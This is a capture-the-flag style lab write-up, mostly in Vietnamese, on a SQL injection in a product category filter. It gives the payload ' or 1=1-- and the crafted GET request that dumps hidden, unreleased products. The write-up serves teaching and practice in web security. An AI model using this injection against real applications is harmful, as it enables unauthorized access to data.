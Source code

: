 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

# 1. Vulnerable

Hint:
- This lab contains a `SQL injection` vulnerability in the `product category filter`. When the user selects a category, the application carries out a `SQL query` like the following:
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
- To solve the lab, perform a `SQL injection` attack that causes the application to display one or more unreleased products.

Ở đây ta nhận được `SQL query form` với cách lấy 1 trường trong `category` là `Gifts` và `released` = 1

Nhìn trên url thì đúng là nó sẽ lấy tên của 1 danh mục sản phẩm rồi hiện thông tin lên cho ta xem

![web.png](images/web.png)

# 2. Exploit

Vậy nếu ta sử dụng câu lệnh or thì sao nhỉ

Ta thêm vào `' or 1=1--` thì câu lệnh SQL sẽ như sau:

```
SELECT * FROM products WHERE category = 'Gifts' or 1=1--' AND released = 1
```

Sau khi thêm vào thì ta sẽ có câu lệnh logic đó là: lấy tất cả giá trị từ `products` nếu `category = 'Gifts'` hoặc `1=1`. Còn dấu `--` phía sau sẽ loại bỏ đi các câu lệnh phía sau nó

Do ở đây 1=1 luôn đúng nên ta sẽ nhận được mọi giá trị từ trường `products`

Ok vậy ta sẽ sửa ở phần GET trong `burpsuite` 

```
GET /filter?category=Gifts'+or+1=1-- HTTP/2
```

Và trang web đã hiện lên tất cả những sản phẩm có trong `products`

![solved.png](images/solved.png)

